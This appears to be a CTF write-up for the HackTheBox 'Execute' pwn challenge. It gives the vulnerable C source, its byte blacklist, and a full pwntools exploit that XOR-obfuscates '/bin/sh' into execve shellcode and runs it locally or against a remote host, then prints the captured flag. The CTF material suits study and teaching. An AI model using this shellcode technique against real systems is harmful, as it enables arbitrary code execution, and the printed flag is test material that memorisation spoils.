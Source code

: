# Execute

- **Challenge**: [https://app.hackthebox.com/challenges/Execute](https://app.hackthebox.com/challenges/Execute)
- **Category**: Pwn
- **Level**: Easy
- **Author**: ryaagard

```bash

$ file *
execute:   ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=815ed65e93f716cd381035b74fa25dc5d7aa8ff5, for GNU/Linux 3.2.0, not stripped

execute.c: C source, ASCII text

flag.txt:  ASCII text

```

We proceed with the analysis of the source file **execute.c**.

## Source Code Analysis

```c

// gcc execute.c -z execstack -o execute

#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(0x7f);
}

int check(char *a, char *b, int size, int op) {
    for(int i = 0; i < op; i++) {
        for(int j = 0; j < size-1; j++) {
            if(a[i] == b[j])
                return 0;
        }
    }

    return 1337;
}

int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");

    int size = read(0, buf, 60);

    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

Essentially, the program allows inserting and executing arbitrary code loaded on the stack (that is, in the local variable **buf**).

**[+] Shellcode Injection Vulnerability**.

Indeed, note that the binary **execute** does not have the **No eXecutable** protection enabled.

```bash

$ checksec --file=execute
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The program allows allocating **60 bytes** of data on the stack, but the **shellcode** to be executed must pass the control of the **check** function.

The *check* function compares the input data with a **blacklist**, to avoid executing code containing the following bytes/characters:

```bash

$ python2 -c "print b'\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67'" | xxd
00000000: 3b54 6269 6e73 68f6 d2c0 5fc9 666c 6167  ;Tbinsh..._.flag
00000010: 0a                                       .

```

Hence, we proceed with building shellcode.

## Crafting the payload

How to bypass the **blacklist**?

**[IDEA]**: use the **XOR** function to obfuscate data.

![XOR](./img/xor.png)

Below is the Python script built for:

1. **Data obfuscation**
2. **Crafting the shellcode**
3. **Exploitation**

Using the *pwntools* and *argparse* libraries.

```python

#!/usr/bin/env python3
from pwn import context, ELF, asm, disasm, info, process, gdb, remote
from argparse import ArgumentParser
import os

exe = "./execute"
elf = context.binary = ELF(exe, checksec=False)

```

### 1. Data Obfuscation

```python

### Obfuscation: /bin/cat flag.txt

_bin_sh = int.from_bytes("/bin/sh\x00".encode(), byteorder="little")
key = 0x9222311122334411

obf_bin_sh = _bin_sh ^ key

info(f"Data Obfuscation:\n/bin/sh:\n\t{hex(_bin_sh)}\nkey:\n\t{hex(key)}\n/bin/sh XOR key:\n\t{hex(obf_bin_sh)}\n")

```

### 2. Crafting the shellcode

```python

### Shellcode generation: execve(char* pathname, char** argv, char** envp) ###

payload=b""

# char* pathname
payload+=asm(f"mov rdi, {obf_bin_sh}")
payload+=asm(f"mov r8, {key}")
payload+=asm("xor rdi, r8")
payload+=asm("push rdi")
payload+=asm("mov rdi, rsp")

# char** argv, char** envp
payload+=asm("xor r11, r11")
payload+=asm("mov rsi, r11")
payload+=asm("mov rdx, r11")

# syscall(59) => execve("/bin/sh", NULL, NULL)
payload+=asm("mov al, 0x3c")
payload+=asm("dec al")
payload+=asm("syscall")

info(f"Shellcode\n{disasm(payload)}\n")
info(f"Shellcode length: {len(payload)} bytes\n")

```

It should be noted that this construction was reached after various local tests in **DEBUG** mode (see next section) since some instructions like **pop rdi** did not pass the *check* function.

### 3. Exploitation

```python

### Exploitation ###

context.log_level="debug"
gdbinit="""
init-pwndbg
break* main
break* main+98
break* main+134
# break* main+174
continue
"""

parser = ArgumentParser(prog=os.path.basename(__file__))
parser.add_argument("-r", "--remote", help="-r, --remote REMOTE:PORT", action="store", type=str, nargs=1)
parser.add_argument("-p", "--process", help="-p, --process", action="store_true")
parser.add_argument("-d", "--debug", help="-d, --debug", action="store_true")

args = parser.parse_args()
if args.process:
    io=process([exe])
elif args.debug:
    io=gdb.debug([exe], gdbscript=gdbinit)
elif args.remote is not None:
    REMOTE, PORT = args.remote[0].split(':')
    io=remote(REMOTE, int(PORT))
else:
    exit(1)

io.sendlineafter(b'\n',payload)
io.interactive()

```

## Local Exploitation

![Local Exploitation](./img/local.png)

With **DEBUG** mode it is possible to see:

### 1. The shellcode in memory

![Shellcode on the stack](./img/debug1.png)

### 2. Bypassing the check function

![Bypass the check](./img/debug2.png)
 
### 3. Shellcode execution

![Shellcode execution](./img/debug3.png)

## Remote Exploitation

Finally, the **flag** is captured remotely.

![Remote Exploitation](./img/remote.png)

**Flag**: HT8{wr1t1ng_sh311c0d3_1s_sO_cO0l}

GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
